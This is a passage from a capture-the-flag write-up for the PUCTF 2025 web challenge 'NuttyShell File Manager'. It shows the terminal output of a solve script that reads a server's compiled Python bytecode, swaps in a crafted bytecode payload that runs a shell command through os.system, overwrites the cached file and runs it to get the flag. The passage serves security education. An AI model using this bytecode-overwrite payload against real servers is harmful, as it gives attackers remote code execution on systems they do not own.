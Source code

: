 > Note: Since the web server is running on Python version 3.11 (Defined in the `app/Dockerfile`), we need to confirm our Python version is also on 3.11. Otherwise our malicious bytecode file's header section will not match to the web server one. We can do so by switching our Python version using tools like [pyenv](https://github.com/pyenv/pyenv).

To automate the above steps, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/PUCTF-2025/Web-Exploitation/NuttyShell-File-Manager)-[2025.04.30|21:45:35(HKT)]
└> python3 solve.py                    
[*] Force compile utils.py bytecode file on the server...
[*] Reading the bytecode file content...
[+] Bytecode file content:
b'\xa7\r\r\n\x00\x00\x00\x00Y\xe5\x11h\x84\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xf3\x0c\x00\x00\x00\x97\x00d\x00\x84\x00Z\x00d\x01S\x00)\x02c\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x03\x00\x00\x00\xf3\x82\x00\x00\x00\x97\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x00d\x01\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x005\x00}\x02|\x02\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00d\x00d\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00#\x001\x00s\x04w\x02x\x03Y\x00w\x01\x01\x00Y\x00\x01\x00\x01\x00d\x00S\x00)\x02N\xda\x02wb)\x02\xda\x04open\xda\x05write)\x03\xda\x08filePath\xda\x0bfileContent\xda\x04files\x03\x00\x00\x00   \xfa\r/app/utils.py\xda\x08saveFiler\n\x00\x00\x00\x03\x00\x00\x00s\x85\x00\x00\x00\x80\x00\xdd\t\r\x88h\x98\x04\xd1\t\x1d\xd4\t\x1d\xf0\x00\x01\x05 \xa0\x14\xd8\x08\x0c\x8f\n\x8a\n\x90;\xd1\x08\x1f\xd4\x08\x1f\xd0\x08\x1f\xf0\x03\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf1\x00\x01\x05 \xf4\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf8\xf8\xf8\xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 s\x0c\x00\x00\x00\x91\x164\x03\xb4\x048\x07\xbb\x018\x07N)\x01r\n\x00\x00\x00\xa9\x00\xf3\x00\x00\x00\x00r\t\x00\x00\x00\xfa\x08<module>r\r\x00\x00\x00\x01\x00\x00\x00s\x1e\x00\x00\x00\xf0\x03\x01\x01\x01\xf0\x06\x02\x01 \xf0\x00\x02\x01 \xf0\x00\x02\x01 \xf0\x00\x02\x01 \xf0\x00\x02\x01 r\x0c\x00\x00\x00'
[*] Modifying the bytecode with our own RCE payload...
[*] Magic number: b'\xa7\r\r\n'
[*] Bit field: b'\x00\x00\x00\x00'
[*] Modification time: Wed Apr 30 16:54:49 2025
[*] Source size: 132
[+] RCE payload:
b"\xa7\r\r\n\x00\x00\x00\x00Y\xe5\x11h\x84\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xf3B\x00\x00\x00\x97\x00\x02\x00e\x00d\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x02S\x00)\x03\xda\x02osz'sh -c /readflag > /app/uploads/flag.txtN)\x02\xda\n__import__\xda\x06system\xa9\x00\xf3\x00\x00\x00\x00\xfa\r/app/utils.py\xfa\x08<module>r\x08\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xd8\x00\n\x80\n\x884\xd1\x00\x10\xd4\x00\x10\xd7\x00\x17\xd2\x00\x17\xd0\x18A\xd1\x00B\xd4\x00B\xd0\x00B\xd0\x00B\xd0\x00Br\x06\x00\x00\x00%PDF-"
[*] Overwriting the original bytecode file with our own RCE payload...
[*] Executing the overwritten bytecode file...
[+] Flag: PUCTF25{wheN_bY7eCodE_Bi7e5_B4CK_8c531a651dd37d09b4b70dd619374a7b}
```
